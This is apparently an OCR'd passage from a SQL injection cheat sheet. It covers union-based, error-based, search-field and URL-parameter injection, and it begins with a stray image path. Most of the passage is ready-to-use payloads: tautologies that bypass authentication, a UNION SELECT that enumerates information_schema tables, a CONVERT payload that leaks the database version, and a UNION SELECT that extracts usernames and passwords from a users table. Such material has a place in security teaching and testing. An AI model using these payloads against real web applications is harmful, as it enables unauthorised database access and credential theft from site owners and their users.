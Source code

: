 ### Extracting Sensitive Data

Extracting data by exploiting vulnerable search fields or input parameters:
```sql
' UNION SELECT 1, table_name FROM information_schema.tables; --
```

### SQL Injection in Search Fields

Search fields are often vulnerable due to lack of sanitization:
```sql
' OR 'x'='x
```

### Exploiting URL Parameters

When URLs use parameters that are directly inserted into SQL queries:
```sql
http://example.com/page?id=1' OR '1'='1
```

## Error-Based SQL Injection in Depth

### Common SQL Errors

- `Syntax Error`
- `Type Mismatch`
- `Conversion Error`
- `Divide by Zero`

### Extracting Data by Exploiting Errors

Manipulating queries to cause errors that reveal data:
```sql
' AND 1=CONVERT(int, (SELECT @@version)); --
```

## Union-Based SQL Injection in Depth

### How It Works

Combines the results of two or more SELECT statements. Requires matching the number and types of columns.

### Finding the Number of Columns

Use `ORDER BY` or `UNION SELECT NULL` techniques.

### Extracting Data with UNION SELECT

Basic payload:
```sql
' UNION SELECT null, username, password FROM users; --
```
